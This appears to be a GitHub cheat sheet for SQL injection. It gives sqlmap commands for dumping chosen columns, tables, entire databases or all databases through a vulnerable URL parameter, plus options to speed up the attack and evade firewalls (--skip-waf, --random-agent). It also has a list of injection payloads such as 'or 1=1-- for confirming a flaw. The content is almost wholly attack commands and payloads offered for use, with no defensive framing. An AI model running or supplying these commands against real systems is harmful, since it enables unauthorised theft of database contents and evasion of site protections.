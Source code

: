 						
<h2>SQLmap Usage</h2>


 **To Fetch Only Column's Data**                        
 ```
  sqlmap - u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump
```
 **To Fetch Only All Column & Its Data**          
 ```
sqlmap - u "url?prm=" -p prm -D dbname -T table_name  --dump
```

 **To Fetch Entire Database's Data** 		     
 ```
sqlmap - u "url?prm=" -p prm -D dbname  --dump
```

 **To Fetch All Databases**
 ```
 sqlmap - u "url?prm=" -p prm --dbs  --dump
``` 
 *or use --dump-all instead of --dump to fetch all databases's all tables and columns*


<h4>Extra Parameter to Optimise SQLmap's Performance</h4>

 * **Parameters**      `--method GET,   --code 200, --skip-waf, --random-agent, --threads 10 -o `
 
* **Optimised Url**

```
sqlmap -u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump --method GET --code 200 --skip-waf --random-agent --threads 10 -o
```


<h2> SQL Injection Confirmation<h2>
 
 ```
 or 1=1 
‘or 1=1
“or 1=1
or 1=1–
‘or 1=1–
“or 1=1–

or 1=1#

‘or 1=1#

“or

1=1#

or 1=1/*

‘or 1=1/*

“or 1=1/*

or 1=1;%00

‘or 1=1;%00

“or 1=1;%00

‘or’

‘or

‘or’–

‘or–

or a=a

‘or a=a

“or a=a

or a=a–

‘or a=a —

“or a=a–

or ‘a’=’a’

‘or ‘a’=’a’

“or ‘a’=’a’

‘)or(‘a’=’a’

“)”a”=”a”

‘)’a’=’a

‘or”=’
```
